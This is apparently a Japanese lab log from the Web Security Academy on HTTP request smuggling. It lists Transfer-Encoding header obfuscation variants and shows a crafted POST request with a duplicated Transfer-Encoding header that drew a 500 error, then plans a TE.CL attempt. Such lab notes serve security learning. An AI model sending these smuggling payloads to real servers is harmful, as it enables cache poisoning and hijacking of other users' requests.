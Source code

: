 
とりあえずちまちまやっていくしかなさそう。


難読化の例としては以下がある。
```text
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```


これらをすべて試す必要がありそう。

- xchunked
  - 変化なし
- Transfer-Encoding : chunked
  - 変化なし
- Transfer-Encoding: chunked\r\nTransfer-Encoding: x
  - 500 Error


```
POST / HTTP/1.1
Host: 0a4d00d603ce8c8c80c1a37600a80067.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked
Transfer-Encoding: x

0

G
```

こうした時500 Errorになりました

なんとなく怪しいので`CL.TE`ではなく`TE.CL`もみてみます
